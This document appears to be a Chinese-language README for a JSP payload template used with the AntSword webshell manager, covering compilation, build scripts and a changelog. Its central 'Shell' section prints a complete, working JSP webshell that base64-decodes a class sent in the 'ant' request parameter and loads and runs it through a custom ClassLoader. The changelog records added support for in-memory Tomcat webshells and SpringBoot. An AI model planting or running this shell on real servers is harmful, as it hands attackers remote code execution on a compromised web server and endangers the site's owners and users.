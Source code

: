# AntSword-JSP-Template  v1.3
中国蚁剑JSP一句话Payload

详细介绍：https://yzddmr6.tk/posts/antsword-diy-3/

编译环境：jdk7 + tomcat7

适用范围：jdk7 - jdk14

## 编译

### 手动编译

```
javac -cp "D:/xxxx/lib/servlet-api.jar;D:/xxx/lib/jsp-api.jar" Test.java

base64 -w 0 Test.class > Test.txt
```

### 自动编译

在build.py/build.sh中替换你的javac路径后运行，即可在`./dist`目录下自动生成代码模板。

Windows

```
python3 build.py
```

Linux/Mac os

```
./build.sh
```

## Shell

```
<%!
    class U extends ClassLoader {
        U(ClassLoader c) {
            super(c);
        }
        public Class g(byte[] b) {
            return super.defineClass(b, 0, b.length);
        }
    }

    public byte[] base64Decode(String str) throws Exception {
        try {
            Class clazz = Class.forName("sun.misc.BASE64Decoder");
            return (byte[]) clazz.getMethod("decodeBuffer", String.class).invoke(clazz.newInstance(), str);
        } catch (Exception e) {
            Class clazz = Class.forName("java.util.Base64");
            Object decoder = clazz.getMethod("getDecoder").invoke(null);
            return (byte[]) decoder.getClass().getMethod("decode", String.class).invoke(decoder, str);
        }
    }
%>
<%
    String cls = request.getParameter("ant");
    if (cls != null) {
        new U(this.getClass().getClassLoader()).g(base64Decode(cls)).newInstance().equals(pageContext);
    }
%>
```

其中`pageContext`可以替换为`request`或者`response`，以实现对Tomcat内存Webshell的兼容

## 更新日志

### v 1.3

1. 兼容SpringBoot

### v 1.2

1. 修复下载文件的BUG
2. database添加Base64编码

### v 1.1

1. 增加对Tomcat内存Webshell的兼容
2. 兼容高版本JDK（JDK7-14）

### v 1.0

1. release